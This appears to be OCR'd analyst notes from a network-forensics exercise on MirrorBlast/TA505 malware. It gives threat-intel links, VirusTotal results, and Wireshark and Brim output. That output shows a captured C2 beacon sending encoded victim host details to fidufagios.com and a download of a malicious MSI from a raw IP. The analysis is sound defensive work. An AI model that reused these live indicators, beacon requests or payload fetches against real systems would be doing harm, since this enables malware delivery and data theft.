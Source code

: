 ```

defanging url without subdomain 
fidufagios[.]com

MirrorBlast TA505
Microsoft Themed TA505 malicious domains
TA505 Campaign

https://attack.mitre.org/groups/G0092/

https://threatresearch.ext.hp.com/mirrorblast-and-ta505-examining-similarities-in-tactics-techniques-and-procedures/

https://www.virustotal.com/gui/domain/fidufagios.com/relations

Scanned
2023-04-05
Detections
32/ 55
Type
Windows Installer
Name
malicious

using wireshark

filter: ip.dst == 169.239.128.11 && http

follow tcp stream
GET /r?x=bmFtZT1TVE9DS0lURk9SVVNcZHdpZ2h0Lm1vcmFsZXMmb3M9MTAuMCZhcmNoPXg4NiZidWlsZD0xLjAuMg== HTTP/1.0
Accept: */*
Connection: close
User-Agent: REBOL View 2.7.8.3.1
Host: fidufagios.com

HTTP/1.1 200 OK
Server: nginx/1.14.2
Date: Tue, 05 Oct 2021 22:42:03 GMT
Content-Type: text/html; charset=UTF-8
Content-Length: 38
Connection: close

1|f327b5b7-65ea-4f57-b323-a278f1637fb8

User-Agent: REBOL View 2.7.8.3.1

search with brim queries http requests

id.orig_h
172.16.1.102
id.resp_h
192.36.27.92
id.resp_p
80
method
GET
host
192.36.27.92
uri
/10opd3r_load.msi
_uniq
1
```